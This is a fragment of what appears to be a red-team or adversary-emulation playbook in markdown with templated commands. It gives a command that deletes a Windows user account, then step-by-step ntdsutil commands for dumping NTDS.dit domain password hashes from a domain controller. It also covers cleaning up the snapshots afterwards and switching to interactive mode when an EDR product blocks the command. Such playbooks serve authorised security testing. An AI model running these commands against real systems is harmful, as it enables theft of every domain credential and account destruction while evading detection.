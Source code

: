 ```
CMD> net user /delete {{ username }}
```


# Collection

# Impact

# Credential access

## Extract NTDS.dit Credentials - via ntdsutil.exe

Dump domain hashes for all domain users on the domain controller via ntdsutil.exe, which uses Volume Shadow Services (VSS)

### Prerequisites

- Elevated command execution on a DC
- Sufficient free disk space on the DC (verify size of ntds.dit file against free disk space)

### Guidance

Note the existing snapshots before dumping NTDS.dit:

```
cmd> ntdsutil.exe snapshot "list all" quit quit
```

Dump NTDS.dit using one of the following methods, noting the snapshot number. The output path should be an empty directory:

```
cmd> ntdsutil “ac in ntds” “ifm” “cr fu {{ output_path }}” q q
```

#### Notes

In the case that ntdsutil is killed during execution (either manually or by an EDR product), the snapshots need to be cleaned up. You cannot do so using vssadmin because they are in use. Delete the snapshot with the following command, using the snapshot number from the dump command in the above guidance:

```
cmd> ntdsutil.exe snapshot "list all" "delete {{ snapshot_number }}" quit quit
```

If the command itself is blocked by a security tool, ntdsutil.exe's interactive mode can be used if executing interactively. The commands are the same but should be used one at a time:

```
cmd> ntdsutil.exe 
ntdsutil> ac in ntds 
ntdsutil> ifm 
ntdsutil> cr fu C:\path\to\ntds-dump
ntdsutil> q q
```

